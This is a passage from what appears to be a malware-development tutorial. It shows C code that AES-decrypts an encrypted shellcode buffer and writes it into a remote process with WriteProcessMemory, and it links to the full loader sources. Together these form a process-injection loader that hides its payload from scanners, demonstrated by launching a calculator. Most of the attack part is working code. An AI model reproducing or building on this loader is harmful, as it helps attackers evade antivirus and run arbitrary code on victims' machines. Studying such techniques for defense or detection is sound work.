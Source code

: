 We’ll use this in the next file to execute the shellcode

### 3. Decrypt the payload before writing the bytes

So, you remember when we used the `WriteProcessMemory` function?

In our main file we'll store the encrypted payload then we'll decrypt the shellcode then write the process memory.

So this is pretty simple, you just need this function 

```c

void decryptAES() {
    // Struct needed for Tiny-AES library
    struct AES_ctx ctx;
    // Initializing the Tiny-AES Library
    AES_init_ctx_iv(&ctx, pKey, pIv);

    // Decrypting
    AES_CBC_decrypt_buffer(&ctx, shellcode, sizeof(shellcode));

    // Print the decrypted buffer to the console
    // PrintHexData("PlainText", shellcode, sizeof(shellcode));
}
```

and you need to call it right before writing to the process memory 

```c
    decryptAES();
    SIZE_T bytesWritten = 0;
    if (WriteProcessMemory(hProcess, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten) == 0) {
        DWORD getLastError = GetLastError();
        VirtualFreeEx(hProcess, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        printf("%s failed to write shellcode into the remote process memory: %ul\n", e, getLastError);
        return EXIT_FAILURE;
    }
    printf("%s bytes written: %llu\n", k, (unsigned long long)bytesWritten);
```

### 4. Do some calculus!

and with that you can now do some calculus :3

![Successful execution](https://raw.githubusercontent.com/WinDyAlphA/miscDownloads/refs/heads/main/maldev5.png)

you can find the files here : 

[shellTransAES.c](https://github.com/WinDyAlphA/maldevSamples/blob/main/shellTransAES.c)  
[basicAES.c](https://github.com/WinDyAlphA/maldevSamples/blob/main/basicAES.c)

